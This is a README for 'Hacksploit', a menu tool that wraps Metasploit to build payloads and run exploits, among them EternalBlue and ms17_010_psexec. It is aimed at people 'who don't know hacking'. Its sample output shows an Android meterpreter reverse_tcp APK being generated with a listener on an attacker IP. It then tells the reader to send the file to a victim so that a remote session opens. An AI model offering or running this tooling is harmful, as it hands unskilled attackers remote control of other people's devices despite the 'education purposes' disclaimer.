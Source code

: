 # Hacksploit Version 3.1
A tool makes the Metasploit Payloads Easier and faster
Contains 8 payloads. Very Faster and Easier than ever. This will also save the time

{Version 3.1 has only 9 payloads but some are different payloads}
The PAYLOADS are:
```
1] Android Payload | 5] Windows 7 Hunting with IP (SMB=ms08_netapi)  | 9] HTA Exploit Windows with Link
                   |                                                 |  
2] Windows Payload | 6] PHP Payload                                  |
                   |                                                 |
3] Mac Payload     | 7] Remote Desktop (ms17_010_eternalblue)        |
                   |                                                 |
4] Linux Paylaod   | 8] Exploit Windows ONLY by IP (ms17_010_psexec) | <--Vista/XP/2000/2003
```


# Install-Hacksploit
```
git clone https://github.com/Pentesting-Lab/Hacksploit.git
```
```
cd Hacksploit
```
  
# ReadThis!
This is only for education purposes. This can be useful for those who don't know hacking. They just wanted to give their IP and Payload Name and for  Remote Desktop (ms17_010_eternalblue) and Exploit Windows Vista/XP/2000/2003 ONLY by IP(ms17_010_psexec) needs Victims ip. After giving  those things easily you can hack. So it is very fast and easier and also makes the work easier. Even installer is also available. You can run it and install Hacksploit in your linux computer. Then you don't need to give cd Hacksploit. Just you can type hacksploit anywhere in your terminal. Then hacksploit wil start to run.

# What is the output?
~~~
    ╦ ╦┌─┐┌─┐┬┌─┌─┐┌─┐┬  ┌─┐┬┌┬┐  (Version:3.1)
    ╠═╣├─┤│  ├┴┐└─┐├─┘│  │ ││ │   (Linux)
    ╩ ╩┴ ┴└─┘┴ ┴└─┘┴  ┴─┘└─┘┴ ┴   (By Pratik(My Github account: Pentesting-Lab))




1] Android Payload | 5] Windows 7 Hunting with IP (SMB=ms08_netapi)  | 9] HTA Exploit Windows with Link
                   |                                                 |  
2] Windows Payload | 6] PHP Payload                                  |
                   |                                                 |
3] Mac Payload     | 7] Remote Desktop (ms17_010_eternalblue)        |
                   |                                                 |
4] Linux Paylaod   | 8] Exploit Windows ONLY by IP (ms17_010_psexec) | <--Vista/XP/2000/2003



Select option : 
~~~
Now select one of the option from the menu. For example I will select option 1
~~~
    ╦ ╦┌─┐┌─┐┬┌─┌─┐┌─┐┬  ┌─┐┬┌┬┐  (Version:3.1)
    ╠═╣├─┤│  ├┴┐└─┐├─┘│  │ ││ │   (Linux)
    ╩ ╩┴ ┴└─┘┴ ┴└─┘┴  ┴─┘└─┘┴ ┴   (By Pratik(My Github account: Pentesting-Lab))




1] Android Payload | 5] Windows 7 Hunting with IP (SMB=ms08_netapi)  | 9] HTA Exploit Windows with Link
                   |                                                 |  
2] Windows Payload | 6] PHP Payload                                  |
                   |                                                 |
3] Mac Payload     | 7] Remote Desktop (ms17_010_eternalblue)        |
                   |                                                 |
4] Linux Paylaod   | 8] Exploit Windows ONLY by IP (ms17_010_psexec) | <--Vista/XP/2000/2003



Select option : 1
Application Name: Pentesting-Lab    
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 10181 bytes
Payload location is /root/Desktop/Pentesting-Lab.apk

[-] ***
[-] * WARNING: No database support: No database YAML file
[-] ***
payload => android/meterpreter/reverse_tcp
lhost => 192.168.29.81
lport => 4444
[*] Started reverse TCP handler on 192.168.29.81:4444 
~~~
So this will save the payload in Desktop. It will also show.
~~~
Payload location is /root/Desktop/Pentesting-Lab.apk
~~~
After you should send the payload to victim he will be hacked. Meterpreter session willwe opened
~~~
meterpreter>
~~~
So now you can type help for more commands.
